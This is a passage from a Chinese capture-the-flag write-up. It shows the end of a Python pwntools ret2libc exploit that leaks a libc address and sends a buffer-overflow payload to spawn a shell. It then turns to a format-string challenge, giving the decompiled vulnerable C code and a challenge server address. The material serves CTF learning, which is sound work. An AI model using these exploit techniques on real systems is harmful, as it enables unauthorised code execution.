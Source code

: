 ```python
write_addr = u32(recvinfo)
log.info(hex(write_addr))
base_addr =  write_addr - write_off
system_addr = system_off + base_addr 
bin_sh_addr = bin_sh_off + base_addr

print "[*] Got baseaddr =",hex(base_addr)
print "[*] Got execveaddr =",hex(system_addr)
print "[*] Got /bin/sh addr =",hex(bin_sh_addr)

payload2 = 'a'*88 + p32(system_addr) + p32(main_addr) + p32(bin_sh_addr)
p.sendline(payload2)
p.recvuntil('? (0 - 1024)\n')
p.sendline('1')

p.interactive()
```
##### 细节处理
这里连上服务器之后，在传回来的数据中，泄露的write函数地址会接在其他字符串后面，所以需要处理一下。
在本地测试的时候传回来的数据内容略有不同，所以如果要在本地调试的话，截取write函数的地址的代码需要做修改。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20181203144547148.png)

### Format
这题几乎是原题，很简单的格式化字符串漏洞题目。

<kbd>题目描述</kbd> Maybe wo gen boring   nc 117.50.13.182 33865

<kbd>解题经过</kbd>
#### 程序源代码：
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1Ch] [ebp-8Ch]
  unsigned int v5; // [esp+9Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  memset(&s, 0, 0x80u);
  fgets(&s, 128, stdin);
  printf(&s);
  if ( secret == 192 )
    give_shell();
  else
    printf("Sorry, secret = %d\n", secret);
  return 0;
}
```
```c
int give_shell()
{
  __gid_t v0; // ST1C_4

  v0 = getegid();
  setresgid(v0, v0, v0);
  return system("/bin/sh -i");
}
```
漏洞点在`printf(&s)`,所以可以用`%x&n`对目标地址中的值进行改写。

